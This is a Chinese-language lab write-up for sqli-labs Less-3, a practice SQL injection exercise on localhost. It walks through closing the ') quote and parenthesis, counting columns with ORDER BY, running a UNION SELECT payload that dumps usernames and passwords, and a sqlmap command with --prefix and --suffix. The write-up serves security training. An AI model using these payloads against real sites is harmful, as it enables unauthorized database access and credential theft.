


# Less-3

**前言**

**本关特点，在前两关的基础上，sql语句上做了限制，需要提前闭合括号，当用sqlmap工具运行这类注入时，需要添加--prefix 和 --suffix这两个参数，具体如何构造还需要分析回显信息**

梅开三度，依旧是输入带值的ID作为参数


同样，在id=1后加入单引号报错，显然sql语句的闭合是非法的，这里存在sql注入

```http
http://localhost:8080/sqli-labs-master/Less-3/?id=1'
```



## 3.1 判断sql注入的类型

分析一下上面的报错信息与前两关有所不同

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 
```

精简一下

```mysql
''1'') LIMIT 0,1'
```

再把左右两边的单引号去掉，两个引号中间的部分才是真正构造出来的sql语句，LIMIT0，1也可以先去掉，最后留下来的就是报错的元凶，显然我们的输入id=1’，这个单引号使得原本的sql语句提前闭合引发了报错

```mysql
'1'')
```

那么可以尝试还原这条sql语句，使用$id来替换1‘，当然别忘记给这个右括号添加一个对应的左括号

```mysql
select * from users where id = ('$id');
```

所以判断这是一个单引号字符型sql注入

## 3.2 判断字段的数量

既然存在括号，那么直接上order by来判断字段数量显然会失效，需要构造一个能够绕过它的payload，对于这关来说也很简单，只需要将前面的括号提前闭合就好

```mysql
$id')payload --+
```

然后在payload中使用order by查询字段数量即可，同样也是3个字段

```http
http://localhost:8080/sqli-labs-master/Less-3/?id=1') order by 4--+
```


## 3.3 获取用户名和密码

既然已经知道如何绕过，那么之前Less-1，Less-2里的方法便能够正常使用，因此跳过中间一些重复性步骤，直接拿到用户名和密码

```http
http://localhost:8080/sqli-labs-master/Less-3/?id=-1') union select 1,group_concat(username),group_concat(password) from security.users--+
```


## 3.4 使用sqlmap

就本关而言，可以使用下面这条语句运行sqlmap（%23即注释#的url编码）

```shell
sqlmap -u "http://localhost:8080/sqli-labs-master/Less-3/?id=1" --prefix "')" --suffix "%23"
```

参数注解

​	--prefix添加前缀

​	--suffix添加后缀

